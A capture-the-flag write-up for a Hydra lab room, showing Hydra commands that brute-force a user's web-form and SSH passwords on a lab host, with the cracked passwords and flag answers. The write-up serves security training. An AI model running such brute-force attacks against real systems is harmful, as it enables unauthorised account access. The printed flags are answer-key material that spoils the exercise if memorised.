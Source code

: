 ## [Task 1] Hydra Introduction
```
No answer needed
```



## [Task 2] Using Hydra

### Use Hydra to bruteforce molly's web password. What is flag 1?
```
$ hydra -l molly -P /opt/wordlists/rockyou.txt 10.10.217.206  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

[80][http-post-form] host: 10.10.217.206   login: molly   password: sunshine

THM{2673a7dd116de68e85c48ec0b1f2612e}
```

### Use Hydra to bruteforce molly's SSH password. What is flag 2?
```
$ hydra -l molly -P /opt/wordlists/rockyou.txt 10.10.217.206 -t 4 ssh

[22][ssh] host: 10.10.217.206   login: molly   password: butterfly

THM{c8eeb0468febbadea859baeb33b2541b}
```

